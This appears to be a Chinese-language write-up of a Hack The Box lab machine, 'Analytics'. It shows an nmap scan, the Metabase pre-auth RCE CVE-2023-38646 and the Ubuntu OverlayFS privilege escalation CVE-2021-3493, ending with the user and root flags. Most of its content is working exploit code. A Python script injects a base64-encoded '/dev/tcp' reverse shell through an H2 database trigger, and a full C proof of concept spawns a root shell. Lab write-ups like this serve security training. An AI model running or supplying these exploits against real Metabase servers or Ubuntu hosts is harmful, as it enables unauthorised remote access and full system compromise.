










nmap扫描结果

```bash
# Nmap 7.92 scan initiated Tue Oct 10 08:06:33 2023 as: nmap -sC -sV -oN nmap 10.129.139.185
Nmap scan report for 10.129.139.185
Host is up (0.82s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 08:10:18 2023 -- 1 IP address (1 host up) scanned in 225.68 seconds

```


login界面



将域名添加到hosts文件中



login界面



Metabase登录

找到相应的CVE： CVE-2023–38646

https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

利用exploit

```python
import requests
import sys
import subprocess
import random
import string
import json
import base64

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Analytics_poc.py <listener ip> <listener port>")
    sys.exit(1)

rnb = random.randint(100000, 999999)
rstr = ''.join(random.choice(string.ascii_uppercase) for _ in range(6))

# Define the URL
url = "http://data.analytical.htb/"

# Step 1: Encode "shell" to base64
original_text = f"sh -i &> /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1"
base64_encoded = base64.b64encode(original_text.encode()).decode()

# Step 2: Count "=" characters at the end
equals_count = base64_encoded.count('=')

# Step 3: Append spaces to "shell" based on the count of "=" characters
modified_text = original_text + ' ' * equals_count

# Step 4: Encode the modified text to base64 again
final_base64_encoded = base64.b64encode(modified_text.encode()).decode()


# Send a GET request to the URL
response2 = requests.get(url + "api/session/properties")

# Check if the request was successful (status code 200)
if response2.status_code == 200:
    # Parse the JSON response
    data2 = response2.json()

    # Extract the value associated with "setup-token"
    setup_token = data2.get("setup-token")

    if setup_token:
        token = setup_token
    else:
        print("No 'setup-token' found in the response.")
else:
    print("Failed to retrieve data. Status Code:", response2.status_code)

headers = {
    "Content-Type": "application/json",
}

data = {
    "token": token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER " + rstr + " BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo," + final_base64_encoded + "}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": False,
            "ssl": True
        },
        "engine": "h2",
        "name": rnb
    }
}

# Convert the data dictionary to a JSON string
json_data = json.dumps(data)

session = requests.Session()

print("[+] get reverse shell")

revshell = session.post(url + "api/setup/validate" , headers=headers, data=json_data)
```

注意到自己是在一个docker中



查看环境变量



ssh连接尝试





user flag :

```bash
metalytics@analytics:~$ cat user.txt
6c7eb0d613df7c0a1036706d975a8b8f
```

root：



存在OS漏洞：CVE-2021-3493 https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------

POC：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

编译后运行





root flag :

```bash
bash-5.1# cat root.txt
171bf3678d4c4fd644256369aa3512d8
```

